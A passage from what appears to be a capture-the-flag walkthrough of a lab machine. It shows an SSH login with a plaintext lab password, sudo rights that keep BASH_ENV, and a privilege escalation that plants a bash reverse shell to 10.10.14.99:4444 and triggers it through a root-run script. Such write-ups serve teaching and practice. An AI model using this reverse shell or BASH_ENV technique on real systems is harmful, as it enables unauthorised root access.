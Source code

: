 SSH login:

```bash
ssh hish@environment.htb
Password: marineSPm@ster!!
```

---

### Privilege Escalation

#### Sudo Permissions

```bash
sudo -l
```

```bash
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

```bash
cat /usr/bin/systeminfo
```


```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

#### BASH_ENV Exploit

```bash
echo 'bash -i >& /dev/tcp/10.10.14.99/4444 0>&1' > /tmp/root.sh
chmod +x /tmp/root.sh
export BASH_ENV=/tmp/root.sh
sudo /usr/bin/systeminfo
```
